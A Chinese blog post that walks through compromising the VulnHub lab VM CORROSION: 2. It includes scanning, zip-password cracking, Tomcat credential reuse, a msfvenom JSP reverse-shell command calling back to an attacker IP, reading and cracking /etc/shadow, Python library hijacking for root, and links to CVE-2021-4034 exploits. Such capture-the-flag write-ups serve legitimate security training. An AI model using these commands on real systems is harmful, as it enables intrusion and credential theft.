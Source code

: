 ```yaml
---
layout: post
title: "vulnhub靶场之CORROSION: 2"
date: "2022-11-02T08:26:57.939Z"
---
```

vulnhub靶场之CORROSION: 2
======================

**准备：**

攻击机：虚拟机kali、本机win10。

靶机：CORROSION: 2，网段地址我这里设置的桥接，所以与本机电脑在同一网段，下载地址：https://download.vulnhub.com/corrosion/Corrosion2.ova.torrent，下载后直接vbox打开即可。

知识点：CVE-2021-4034漏洞利用、fcrackzip爆破zip文件密码、tomcat获取shell（知账户和密码）、unshadow生成密码本、john爆破密码。

![](https://img2022.cnblogs.com/blog/2834847/202210/2834847-20221031204357048-510258685.png)

**信息收集：**

通过nmap扫描下网段内的存活主机地址，确定下靶机的地址：nmap -sn 192.168.100.0/24，获得靶机地址：192.168.100.244。

![](https://img2022.cnblogs.com/blog/2834847/202210/2834847-20221031203053278-1503920515.png)

扫描下开放的端口和对应的服务：nmap -T4 -sV -p- -A 192.168.100.244，显示开放了22、80、8080端口，开启了ssh服务、apache服务。

![](https://img2022.cnblogs.com/blog/2834847/202210/2834847-20221031203221745-697362223.png)

使用dirmap进行目录扫描，80端口未发现有用信息，但是在8080端口发现readme.txt、backup.zip等文件，扫描命令：python dirmap.py -i http://192.168.100.244:8080/ -lcf。

![](https://img2022.cnblogs.com/blog/2834847/202210/2834847-20221031203640672-36890360.png)

访问下80端口，在80端口的源代码页面中发现让我们查看https://launchpad.net/bugs/1288690网页。

![](https://img2022.cnblogs.com/blog/2834847/202210/2834847-20221031204006964-1264077117.png)

![](https://img2022.cnblogs.com/blog/2834847/202210/2834847-20221031205127493-1955102999.png)

访问下8080端口和端口的readme.txt文件，下载backup.zip文件进行解压查看，但是需要密码。

![](https://img2022.cnblogs.com/blog/2834847/202210/2834847-20221031205436008-872363121.png)

![](https://img2022.cnblogs.com/blog/2834847/202210/2834847-20221031204627125-158822797.png)

**信息利用：**

使用zip密码爆破工具（fcrackzip）进行密码爆破，命令：fcrackzip -D -p /usr/share/wordlists/rockyou.txt -u backup.zip，获得密码：@administrator\_hi5。

![](https://img2022.cnblogs.com/blog/2834847/202210/2834847-20221031210149197-836349931.png)

在解压的tomcat-users.xml文件中发现两组账户和密码：manager/melehifokivai、admin/melehifokivai。

![](https://img2022.cnblogs.com/blog/2834847/202210/2834847-20221031212512069-553049731.png)

使用账户名和密码在8080端口登录。

![](https://img2022.cnblogs.com/blog/2834847/202210/2834847-20221031214448089-959604442.png)

想着部署项目实现shell反弹，但是失败了，war包生成命令：msfvenom -p java/jsp\_shell\_reverse\_tcp LHOST=192.168.100.166 LPORT=6688 -f war -o upfine.war，在本地上传部署后，访问下该服务。

![](https://img2022.cnblogs.com/blog/2834847/202210/2834847-20221031214908618-200496599.png)

**shell获取：**

在msf中存在一个配合账号和密码获取tomcat shell权限的exp。

![](https://img2022.cnblogs.com/blog/2834847/202210/2834847-20221031221559155-1570702096.png)

选择该exp：use 6，设置下账号、密码、ip信息、端口信息，然后run即可。

![](https://img2022.cnblogs.com/blog/2834847/202210/2834847-20221031222027388-875214019.png)

![](https://img2022.cnblogs.com/blog/2834847/202210/2834847-20221031222350814-1388838412.png)

使用当前用户在系统里查看下目录信息和文件信息，在/home下发现两个用户文件夹，但是/jaye的文件夹无权限查看，在randy文件下下发现了note.txt和user.txt进行查看，获得第一个flag。

![](https://img2022.cnblogs.com/blog/2834847/202210/2834847-20221031223222135-1655560726.png)

**越权访问：**

在虚拟机的初始界面存在三个账户：jaye、randy、tomcat，发现jaye账户使用密码：melehifokivai可以成功登录或者使用xshell登录。

![](https://img2022.cnblogs.com/blog/2834847/202210/2834847-20221031224116704-124205764.png)![](https://img2022.cnblogs.com/blog/2834847/202210/2834847-20221031225045159-1773701406.png)

使用jaye账户查看下目录信息和文件信息，在jaye账户下的Files文件下下发现具有root权限和当前账户可执行权限的look命令，在/root文件下发现root.txt文件，因此直接使用look命令读取下root.txt信息，成功获取到flag值。

![](https://img2022.cnblogs.com/blog/2834847/202210/2834847-20221031230352872-1566846603.png)

**权限提升：（两种方法）**

**第一种：**

在jaye账户下，使用look命令读取下/etc/shadow文件和/etc/passwd文件，命令：./look '' 文件名，将文件内容复制到本地使用unshadow生成密码本，然后进行暴力破解，生成密码本命令：unshadow passwd shadow > pass.txt。

![](https://img2022.cnblogs.com/blog/2834847/202211/2834847-20221101184748834-1372590499.png)

![](https://img2022.cnblogs.com/blog/2834847/202211/2834847-20221101183336751-2109329266.png)

使用john进行密码爆破，命令：john --wordlist=/usr/share/wordlists/rockyou.txt pass.txt，获得两组账户名和密码：melehifokivai/jaye、07051986randy/randy，第一组和前面的猜测一样。emmm时间是真的长，差不多五个小时跑出来的，可以在晚上跑。

![](https://img2022.cnblogs.com/blog/2834847/202211/2834847-20221101222919385-1375253068.png)

使用ssh服务登录randy账户，查看下当前用户有哪些可以不需要root密码就可拥有root权限的文件，发现了randombase64.py。

![](https://img2022.cnblogs.com/blog/2834847/202211/2834847-20221101194700178-2002735102.png)

查看下该文件权限，发现当前用户不具备该文件的写入权限，查看该文件内容，发现其引入了base64模块。

![](https://img2022.cnblogs.com/blog/2834847/202211/2834847-20221101195026113-546145316.png)

查看下base64文件的位置，命令：locate base64。

![](https://img2022.cnblogs.com/blog/2834847/202211/2834847-20221101200437466-529725798.png)

查看下base64.py的权限，发现当前用户具有读写权限，因此我们可以在此文件中写入shell脚本。

![](https://img2022.cnblogs.com/blog/2834847/202211/2834847-20221101200620435-1216680985.png)

写入脚本时缺少vim命令，只能采用nano来编辑py文件，写入：import os 和 os.system("/bin/bash")。

![](https://img2022.cnblogs.com/blog/2834847/202211/2834847-20221101200827743-856726392.png)

![](https://img2022.cnblogs.com/blog/2834847/202211/2834847-20221101200802503-338924207.png)

shell写入完成后，运行 randombase64.py，命令：sudo /usr/bin/python3.8 /home/randy/randombase64.py，成功获取到root权限并读取flag值。

![](https://img2022.cnblogs.com/blog/2834847/202211/2834847-20221101201707059-355402635.png)

**第二种：**

首先查看下不需要root密码可以执行的root权限命令，sudo -l，显示不存在，这个行不通。

![](https://img2022.cnblogs.com/blog/2834847/202211/2834847-20221101205025873-1565142607.png)

查看下具有root权限的文件，命令：find / -perm -4000 -type f 2>/dev/null，发现/usr/lib/policykit-1/polkit-agent-helper-1，

![](https://img2022.cnblogs.com/blog/2834847/202211/2834847-20221101134930059-1099269907.png)

下载exp在本地进行编译（make）：https://github.com/berdav/CVE-2021-4034，然后将编译好的文件上传到靶机。

![](https://img2022.cnblogs.com/blog/2834847/202211/2834847-20221101150753104-1279181028.png)

在执行时出现了错误，显示：/lib/x86\_64-linux-gnu/libc.so.6: version \`GLIBC\_2.34' not found，就对比了一下靶机和本地的该文件，发现靶机不存在这个GLIBC\_2.34，命令：strings /usr/lib/x86\_64-linux-gnu/libc.so.6 | grep GLIBC。

![](https://img2022.cnblogs.com/blog/2834847/202211/2834847-20221101150641008-378573190.png)

![](https://img2022.cnblogs.com/blog/2834847/202211/2834847-20221101151237013-1682538202.png)

但是生成的脚本在kali中测试是可以直接获取root权限的，（这里想着把靶机的文件复制过来就行了，但是直接导致kali命令都不能用了，还好有个镜像，直接恢复镜像了）没办法就只能重新找可利用的exp，这个网站：https://github.com/arthepsy/CVE-2021-4034，下载下来poc进行gcc编译，然后上传到靶机进行执行即可获得root权限。

![](https://img2022.cnblogs.com/blog/2834847/202211/2834847-20221101211405986-900865836.png)

![](https://img2022.cnblogs.com/blog/2834847/202211/2834847-20221101211426691-1463720376.png)

![](https://img2022.cnblogs.com/blog/2834847/202211/2834847-20221101211552163-741567765.png)